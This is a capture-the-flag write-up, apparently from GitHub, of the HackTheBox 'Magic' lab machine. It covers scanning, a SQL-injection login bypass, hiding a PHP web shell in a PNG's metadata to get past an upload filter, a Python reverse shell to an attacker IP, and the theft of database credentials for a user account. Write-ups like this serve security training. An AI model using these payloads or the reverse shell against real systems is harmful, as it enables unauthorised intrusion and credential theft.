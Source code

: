 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.185 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/1.png">

We discover two open ports and see that the target is running Linux. Browsing to the webserver on port 80 shows us an image upload page. We can try to gain initial foothold by uploading a reverse script. This will bropably be blocked by a filter but we can try to bypass this.

# Enumeration
We find a link to a login page. Let's first try to run gobuster in an attempt to find folders and files which could lead us to usernames and other info. We also check to see if there's a robots.txt file which can contain usefull folders.

We'll run two gobuster scans. One for file discovery and one for folders.
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.10.185 -x txt
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.185
```
Other than three folders (```/assets /images /server-status```) we don't find anything interesting.

Because we will probably try to upload shell code to our target for initial access it is important to know where the files will be uploaded. Therefor we will run another gobuster scan on the ```/images``` directory.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/8.png">

We've found an ```/uploads``` folder. This might be usefull later on.

# Initial Foothold
 Next we'll try some default usernames and passwords but without any luck. One thing we didn't try was if we could use SQL injection to bypass the login screen. That seems to work as we are now logged in and able to upload images.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/2.png">

There is a filter blocking other filetypes than JPG, JPEG and PNG files. Let's fire up BurSuite to see if we can intercept the request and change it to our liking. Let's rename a JPEG file to .jpeg.php and intercept the request. We did the exact same thing eralier on the Popcorn box.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/4.png">

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/3.png">

That didn't seem to work because there is another filter blocking our attempt. This will probably be a check for file signatures. These signatures are known as magic numbers or Magic Bytes. For PNG files these are ```89 50 4E 47 0D 0A 1A 0A```. We can however add some code to a genuine PNG file in an attempt to bypass this signature filter.

We well use ```exiftools``` for this:
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.php.png 
```
The file was successfully uploaded. We can now try to see if we can run commands by browsing to it's location and a simple ```list``` command. We know this locations because of the earlier found ```/uploads``` directory.

```
http://10.10.10.185/images/uploads/exploit.php.png?cmd=ls
```

That worked!

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/5.png">

We can now alter the command to spawn a reverse shell. We'll use the code from the PayloadAllTheThings repo. https://github.com/swisskyrepo/PayloadsAllTheThings

```
http://10.10.10.185/images/uploads/exploit.php.png?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444))](http://10.10.10.185/images/uploads/exploit.php.png?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.6%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27)
```
With our listener ready on port 4444 we now have a low priviliged reverse shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/6.png">

# Lateral Movement
We spawn a TTY shell using Python3:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

Press ctrl+z key combination 

stty raw -echo; fg
``` 

We'll look around for files with SUID set, crontab jobs, kernel version, running processes but nothing stands out here. While looking around our webserver folders we discover a file containing database login credentials.

```
/var/www/Magic/db.php5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/7.png">

We can try to connect to the MySQL database using ```mysql``` but it isn't installed on the target. Another tool we can use is ```mysqldump```, which is installed.

Running the following code will iterate the tables in the database. We run into an access denied error but are able to view the content of the login table. This contains a password. We try if this is the password for the theseus account which seems to be the case.

```
su theseus
```

We are now able to grab the user.txt file in the homefolder of theseus.

# Privilege Escalation
